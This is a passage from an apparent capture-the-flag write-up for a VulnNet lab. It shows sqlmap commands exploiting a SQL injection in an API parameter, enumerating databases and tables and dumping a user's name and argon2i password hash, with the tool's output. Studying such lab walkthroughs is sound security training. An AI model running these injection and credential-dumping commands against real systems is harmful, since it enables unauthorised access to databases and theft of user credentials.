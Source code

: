 ```sh
| realName              | varchar(80)          |
| starttime             | int(10) unsigned     |
| TSconfig              | text                 |
| tstamp                | int(10) unsigned     |
| uc                    | mediumblob           |
| uid                   | int(10) unsigned     |
| usergroup             | varchar(255)         |
| usergroup_cached_list | text                 |
| userMods              | text                 |
| username              | varchar(50)          |
| workspace_id          | int(11)              |
| workspace_perms       | smallint(6)          |
+-----------------------+----------------------+
```
- Notice that we have `password` and `username`, let these be our next enumeration target
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -D vn_admin -T be_users -C username,password --dump
[17:59:09] [INFO] fetching entries of column(s) 'password,username' for table 'be_users' in database 'vn_admin'
Database: vn_admin
Table: be_users
[1 entry]
+----------+---------------------------------------------------------------------------------------------------+
| username | password                                                                                          |
+----------+---------------------------------------------------------------------------------------------------+
| chris_w  | $argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg |
+----------+---------------------------------------------------------------------------------------------------+
```
- Now we have username: `chris_w` and hash: `$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg` . With that obtained, let's enumerate the other database `blog`
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -D blog --tables
[18:02:43] [INFO] fetching tables for database: 'blog'
[18:02:43] [WARNING] reflective value(s) found and filtering out
Database: blog
[4 tables]
+------------+
| blog_posts |
| details    |
| metadata   |
| users      |
+------------+
```
- Found `users` table
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -D blog -T users --columns
[18:03:46] [INFO] fetching columns for table 'users' in database 'blog'
[18:03:46] [WARNING] reflective value(s) found and filtering out
Database: blog
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(11)     |
| password | varchar(50) |
```